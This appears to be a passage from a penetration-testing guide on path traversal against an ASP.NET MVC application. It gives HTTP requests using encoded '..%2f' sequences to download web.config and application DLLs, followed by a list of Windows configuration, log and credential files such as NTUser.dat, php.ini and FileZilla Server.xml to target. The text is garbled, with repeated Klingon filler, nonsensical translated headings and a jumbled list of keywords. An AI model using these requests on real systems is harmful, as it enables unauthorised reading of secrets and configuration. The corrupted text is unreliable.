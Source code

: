 vItlhutlhlu'pu' 'e' vItlhutlhlu'pu' 'e' vItlhutlhlu'pu' 'e' vItlhutlhlu'pu' 'e' vItlhutlhlu'pu' 'e' vItlhutlhlu
```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
```
### **Downloading DLLs**

The mention of a custom namespace hints at a DLL named "**WebApplication1**" present in the /bin directory. Following this, a request to download the **WebApplication1.dll** is shown:

### **tlhIngan Hol translation**

**DLLmey tIv**

custom namespace jatlhpu'chugh, **WebApplication1** DLL **/bin** qachDaq 'e' vIlo'lu'. vaj **WebApplication1.dll** download request vItlhutlh:
```markup
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
```
**jImej** **System.Web.Mvc.dll** **'ej** **System.Web.Optimization.dll** **/bin** **DIr** **ghItlh** **DLL** **web.config** **/area-name/Views/** **/Minded/Views/web.config** **WebApplication1.AdditionalFeatures.dll**.

### **Common files**

[ghaH](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
```